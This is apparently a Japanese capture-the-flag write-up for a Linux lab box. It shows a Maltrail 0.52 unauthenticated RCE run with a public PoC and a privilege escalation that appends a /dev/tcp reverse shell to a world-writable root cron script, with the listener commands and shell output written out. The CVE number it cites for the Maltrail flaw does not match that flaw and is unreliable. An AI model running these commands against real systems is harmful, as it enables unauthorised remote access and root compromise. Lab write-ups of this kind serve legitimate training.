

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | Maltrail IDS Web インターフェース (ポート 8338) |
| 主な侵入経路 | Maltrail v0.52 非認証 RCE (CVE-2023-27163) |
| 権限昇格経路 | 誰でも書き込み可能な cron スクリプト → root リバースシェル |

## 認証情報

認証情報なし。

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.178.32:22
Open 192.168.178.32:80
```

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
8338/tcp open  http    Python http.server 3.5 - 3.10
|_http-title: Maltrail
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Maltrail/0.52
```

ポート8338へのディレクトリ列挙でMaltrailのログインエンドポイントを特定:

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt -u http://$ip:8338
```

```bash
200      GET      111l      432w     7091c http://192.168.178.32:8338/
200      GET        1l        1w        4c http://192.168.178.32:8338/ping
401      GET        0l        0w        0c http://192.168.178.32:8338/events
```

## 初期足がかり

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

Maltrail v0.52 はログインエンドポイントの `username` パラメータ経由で非認証 RCE が可能。公開 PoC を使用:

https://github.com/spookier/Maltrail-v0.53-Exploit

```bash
python3 exploit.py 192.168.45.166 80 http://192.168.178.32:8338
```

```bash
nc -lvnp 80
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.32] 34246
$
```

local.txt取得:

```bash
snort@ochima:/opt/maltrail-0.53$ find / -iname local.txt 2>/dev/null
/home/snort/local.txt
snort@ochima:/opt/maltrail-0.53$ cat /home/snort/local.txt
e3c3b4d04707e71073979ac1051c2375
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

`pspy64` でroot権限のcronジョブが毎分実行されていることを確認:

```bash
2026/03/01 00:32:01 CMD: UID=0     PID=13020  | /bin/bash /var/backups/etc_Backup.sh
2026/03/01 00:32:01 CMD: UID=0     PID=13019  | /bin/sh -c /var/backups/etc_Backup.sh
2026/03/01 00:32:01 CMD: UID=0     PID=13018  | /usr/sbin/CRON -f -P
```

スクリプトが誰でも書き込み可能だった:

```bash
snort@ochima:/tmp$ ls -la /var/backups/etc_Backup.sh
-rwxrwxrwx 1 root root ... /var/backups/etc_Backup.sh
```

```bash
snort@ochima:/tmp$ cat /var/backups/etc_Backup.sh
#! /bin/bash
tar -cf /home/snort/etc_backup.tar /etc
```

スクリプトにリバースシェルを追記:

```bash
echo '/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1' >> /var/backups/etc_Backup.sh
```

```bash
snort@ochima:/tmp$ cat /var/backups/etc_Backup.sh
#! /bin/bash
tar -cf /home/snort/etc_backup.tar /etc
/bin/bash -i >& /dev/tcp/192.168.45.166/80 0>&1
```

次のcron実行後:

```bash
nc -lvnp 80
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.32] 44098
bash: cannot set terminal process group (13114): Inappropriate ioctl for device
bash: no job control in this shell
root@ochima:~#
```

```bash
root@ochima:~# cat /root/proof.txt
39da7501d16cfd741104861ccb4f7eb4
```

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- Maltrail などのセキュリティツールを最新状態に保つ — 脆弱な IDS ソフトウェアを動かすことはそれ自体の目的に反する。
- rootが実行するcronスクリプトに誰でも書き込み可能なパーミッション (`-rwxrwxrwx`) を設定しない。
- 特権コマンドを実行するcronジョブのスクリプトはrootが所有し、制限されたパーミッション (例: `chmod 700`) で管理する。
- cronジョブとその対象スクリプトのパーミッションを定期的に監査する。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- CVE-2023-27163 (Maltrail RCE): https://nvd.nist.gov/vuln/detail/CVE-2023-27163
- Maltrail RCE PoC: https://github.com/spookier/Maltrail-v0.53-Exploit
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- pspy: https://github.com/DominicBreuker/pspy
